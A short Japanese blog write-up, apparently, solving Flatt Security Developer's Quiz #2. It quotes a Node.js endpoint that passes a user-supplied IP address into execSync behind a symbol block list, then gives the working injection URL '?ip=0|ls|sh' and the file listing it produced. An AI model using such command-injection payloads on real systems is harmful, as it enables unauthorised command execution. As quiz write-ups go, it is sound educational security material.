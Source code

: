 ```yaml
---
title: "Flatt Security Developer's Quiz #2"
date: 2022-07-23T00:22:32+09:00
tags: ["web", "Flatt Security Developer's Quiz"]
draft: false
---
```


[![flatt-security-developers-quiz2](https://i.gyazo.com/a6bc5bd079625435f43a4e6544564695.jpg)](https://gyazo.com/a6bc5bd079625435f43a4e6544564695)
https://twitter.com/flatt_security/status/1549710781918617600

# 方針
パイプで出力を繋いで、ファイル名を表示します。

## フィルタリングとコマンドの実行処理

以下の`exec()`は、スラッシュで囲まれたパターンをフィルタリングするので、多くの記号が使えません。
```javascript
if(/[!@#$%\^&*()\-_+=\[\] {}'";:,:?~\\]/.exec(ip_address)){
    res.send("Error! Your request is filtered!");
    return;
}
```

`ip_address`にフィルタリングを回避したコマンドを入力することで実行されてしまうことがわかります。
また、`execSync()`の処理がエラーの場合、レスポンスが返ってきます。

```javascript
const cmd = "sh -c 'ping -c 1 " + ip_address + "' 2>&1 >/dev/null; true";
const stderr = execSync(cmd, {"timeout": 1000});
if(stderr != ""){
    res.send("Error! " + stderr);
    return;
}

res.send("Your IP is in a good state!");
```

# 解答

パイプ`|`がフィルタリングされいないことに気づくので、それを使って繋いでいきます。

```none
https://2207okapi.twitter-quiz.flatt.training/?ip=0|ls|sh

Error! sh: 1: main.js: not found sh: 2: node_modules: not found sh: 3: package-lock.json: not found sh: 4: package.json: not found sh: 5: wow_congrats_you_executed_a_system_command.txt: not found
```

```none
main.js
node_modules
package-lock.json
package.json
wow_congrats_you_executed_a_system_command.txt
```

## 感想
Array query(`?ip[]=`)で[長さの制限をバイパスする方法](https://twitter.com/arkark_/status/1549957041279488000)を知る良い機会になりました。
